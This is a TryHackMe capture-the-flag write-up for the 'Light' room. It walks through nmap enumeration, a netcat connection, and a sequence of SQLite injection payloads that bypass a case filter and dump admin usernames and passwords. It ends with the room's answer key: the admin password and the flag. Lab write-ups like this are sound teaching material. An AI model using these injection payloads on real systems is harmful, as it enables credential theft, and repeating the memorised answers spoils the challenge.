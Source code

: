 ## Light - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/lightroom)

<i>Welcome!</i>

<i>I am working on a database application called Light! Would you like to try it out?</i>
<i>If so, the application is running on port 1337. You can connect to it using nc MACHINE_IP 1337</i>
<i>You can use the username smokey in order to get started.</i>

<i>**Note: Please allow the service 2 - 3 minutes to fully start before connecting to it**<i>.

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: SQL Injection <br>

**Tools Used**: Nmap<br>

**Author**: <br>
mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

IP: 10.10.237.33<br>
Username: `smokey`<br>
Password: `vYQ5ngPpw8AdUmL` ; you get this password when you get netcat connection<br>

- Nmap Scan

  ```
  nmap -A -p- 10.10.237.33
  ```

- Found:

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)<br>
1337/tcp open  waste?

## ⚙️ Exploitation 

  ```
  nc 10.10.237.33 1337
  ```

After connecting, type smokey to get his password `vYQ5ngPpw8AdUmL`

- Now we start with the payloads:
  First we check if SQLI is actually possible.

  ```
  smokey'
  smokey' UNION SELECT 1 -- -
  smokey' UNION SELECT 1 #
  ```

- I got various different responses with different queries and I concluded that filtering is present. Now, it took me a bit to find the specific filter bypass since I wanted to find which DBMS is used.<br>
  This is what I used:

  ```
  smokey' UnIon SeLect @@version '
  smokey' UnIon SeLect version() '
  smokey' UnIon SeLect sqlite_version() '
  ```

  Only got positive response with `smokey' UnIon SeLect sqlite_version() '` so its a SQLite database!

  Now extracting the values from DBMS:

- This one extracts table names, it gave me `admintable`:

  ```
  smokey' UnIon SeLect tbl_name FROM sqlite_master WHERE type='table
  ```

- This one extracts schema of table in SQLite:

  ```
  smokey' UnIon SeLect sql FROM sqlite_master WHERE name = 'admintable
  ```

- Now for final push, lets get both usernames and passwords from admintable:

  ```
  smokey' UnIon SeLect group_concat(username || ":" || password) FROM admintable '
  ```

**Result of last query**: `Password:TryHackMeAdmin:mamZtAuMlrsEy5bp6q17,flag:THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

- **Theres various different resources/documentation to help you out with this challenge, I prefer PayloadsAllTheThings**.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## 🏁 Flags

- **What is the admin username?** : `TryHackMeAdmin`
- **What is the password to the username mentioned in question 1?** : `mamZtAuMlrsEy5bp6q17`
- **What is the flag?** : `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?<br>
  `It took me a bit to realise that netcat connection gives you immediate access to the database...`
  
- What did I learn?<br>
  `Just kept sharpening SQLI skills`
  
- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!
  
- Enjoy, Have Fun and Happy Hacking! 🤟

---
